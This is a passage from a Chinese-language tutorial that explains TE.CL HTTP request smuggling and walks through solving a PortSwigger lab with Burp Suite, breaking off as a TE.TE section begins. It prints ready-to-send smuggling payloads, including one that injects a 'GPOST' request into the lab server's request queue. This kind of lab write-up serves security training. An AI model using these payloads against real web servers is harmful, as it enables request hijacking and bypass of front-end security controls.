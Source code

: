 在此类场景下，前端服务器使用 Transfer-Encoding 头，后端服务器使用 Content-Length 头，我们可以执行简单的 HTTP 请求走私攻击，如下所示：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

前端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，据说它有 8 个字节长，直到走私的下一行的开始，它处理第二个块，该块被声明为零长度，因此被视为终止请求，这个请求被转发到后端服务器，后端服务器处理 Content-Length 标头并确定请求正文的长度为 3 个字节，直到第 8 行的开头，接下来的字节，从走私开始没有被处理，后端服务器将把这些视为序列中下一个请求的开始  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)  
解题过程：  
Step 1：访问以上链接进入到靶场，随后点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-0fbfb65368038a2bf677a63bcdeeeb75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154143-8a6035f8-aa0b-1.png)  
Step 2：修改从 burpsuite 中捕获到的数据报文，构造如下的请求走私请求 (这里推荐打击使用新版本的 Burpsuite，主要是可以可视化换行，其次需要注意的一个点是最后的那个 0 的后面也得\\r\\n，再者是需要移除栏目 Repeater 中的 UnUpdate Content-Length)

```plain
POST / HTTP/1.1
Host: 0a96003604f8aabe8031df2300fe009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-dabb06d085cb50b259f3f1cca63f97cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154206-979f3a70-aa0b-1.png)  
随后进行第二次发包，提示"Unrecognized method GPOST"

[![](assets/1704418275-aff18da5d97a214c1f881b3931f9ca3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154223-a1d7c0de-aa0b-1.png)  
Step 3：随后完成解题操作

[![](assets/1704418275-3405a7bd4b233f20c9cf8abe1dc0539c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154238-ab1ae19e-aa0b-1.png)

### TE.TE vulnerabilities

在这种场景下，前端和后端服务器都支持 Transfer-Encoding 头，但是可以通过以某种方式混淆头来诱导其中一个服务器不处理它，可能有无穷无尽的方法来混淆传输编码头，例如：
